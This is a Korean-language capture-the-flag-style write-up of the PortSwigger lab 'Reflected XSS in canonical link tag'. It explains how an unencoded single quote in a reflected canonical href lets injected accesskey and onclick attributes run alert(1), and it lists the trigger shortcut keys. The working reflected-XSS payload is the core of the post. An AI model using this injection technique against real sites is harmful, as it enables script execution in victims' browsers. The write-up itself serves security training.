


+++
date = '2026-06-05T09:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Reflected XSS in canonical link tag'
summary = "현재 URL이 canonical link의 작은따옴표 속성에 반사되는 지점에 accesskey와 onclick을 주입하는 Reflected XSS 풀이"
toc = true
tags = ["XSS", "Reflected XSS", "HTML Attribute", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/xss/write-up-portswigger---reflected-xss-in-canonical-link-tag/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Reflected XSS in canonical link tag](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)

> 

현재 URL이 `<link rel="canonical">` 요소의 `href` 속성에 반사되며 꺾쇠는 이스케이프된다. 기존 링크 요소에 실행 가능한 속성과 단축키를 추가해 `alert()`를 호출하면 문제가 해결된다.

### XSS 진단

홈 페이지의 `<head>`에서 다음 요소를 확인할 수 있다.

```html
<link rel="canonical" href='https://<lab-id>.web-security-academy.net/'/>
```

요청 URL의 경로와 쿼리 문자열도 canonical URL에 포함된다. 이때 `href` 값은 작은따옴표로 감싸져 있고 작은따옴표가 인코딩되지 않으므로, URL에 `'`를 넣어 속성에서 탈출할 수 있다.

새로운 요소를 만들 수는 없지만 기존 `<link>` 요소에 `onclick`과 `accesskey` 속성을 추가할 수 있다. `accesskey=x`를 지정하면 운영체제별 단축키 조합으로 보이지 않는 link 요소의 클릭 이벤트를 발생시킬 수 있다.

---

## 익스플로잇

홈 페이지 URL 뒤에 다음 문자열을 추가한다.

```text
/?'accesskey='x'onclick='alert(1)
```

브라우저가 파싱하는 요소는 다음과 같은 형태가 된다.

```html
<link rel="canonical"
      href='https://<lab-id>.web-security-academy.net/?'
      accesskey='x'
      onclick='alert(1)'/>
```

페이지에서 환경에 맞는 단축키를 누른다.

- Windows: `Alt+Shift+X`
- macOS: `Ctrl+Alt+X`
- Linux: `Alt+X`

`onclick`이 실행되어 문제가 해결된다.



---

## 정리

사용자 입력이 `<head>`의 보이지 않는 요소에 반사되어도 XSS로 이어질 수 있다. 이 랩에서는 새 태그를 만들지 않고 기존 요소의 속성만 확장했으며, `accesskey`를 클릭 이벤트의 트리거로 이용했다. 출력 위치와 사용자 상호작용 조건을 함께 분석해야 하는 사례다.
